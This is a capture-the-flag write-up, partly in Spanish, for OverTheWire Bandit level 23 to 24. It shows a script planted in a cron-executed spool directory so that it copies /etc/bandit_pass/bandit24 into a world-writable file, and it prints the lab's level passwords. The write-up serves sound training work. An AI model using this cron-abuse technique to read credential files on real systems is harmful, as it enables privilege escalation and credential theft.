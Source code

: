 ## Level 23 to level 24

### Objetivos 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
### Datos de acceso al nivel 

```
Host: bandit.labs.overthewire.org  
user: bandit23
pasword: WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff
Port: 2220
```

 Conexión:
```
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

### Solución 

``` bash
bandit23@bandit:~$ ls /etc/cron.d 
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir 
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash 

myname=$(whoami) 

cd /var/spool/$myname/foo 
echo "Executing and deleting all scripts in /var/spool/$myname/foo:" 
for i in * .*;
do 
	if [ "$i" != "." -a "$i" != ".." ]; 
	then 
		echo "Handling $i" 
		owner="$(stat --format "%U" ./$i)" 
		if [ "${owner}" = "bandit23" ]; 
			then timeout -s 9 60 ./$i 
		fi 
		rm -f ./$i 
	fi 
done 

bandit23@bandit:~$ mkdir /tmp/kd 
bandit23@bandit:~$ cd /tmp/kd 
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh 
bandit23@bandit:/tmp/kd$ cat script.sh cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh bandit23@bandit:/tmp/kd$ touch password 
bandit23@bandit:/tmp/kd$ chmod 666 password bandit23@bandit:/tmp/kd$ ls –la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo bandit23@bandit:/tmp/kd$ ls -la 
total 92 
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . 
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. 
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 bandit23@bandit:/tmp/kd$ ls -la 
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . 
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. 
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cat password VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

### Notas adicionales:

revisaremos el cron para ver los scripts programados, vamos a mandar el password a una carpeta que nosotros creamos y le daremos permisos
para que el script se ejectute, y obtenemos la contraseña
### Referencias:
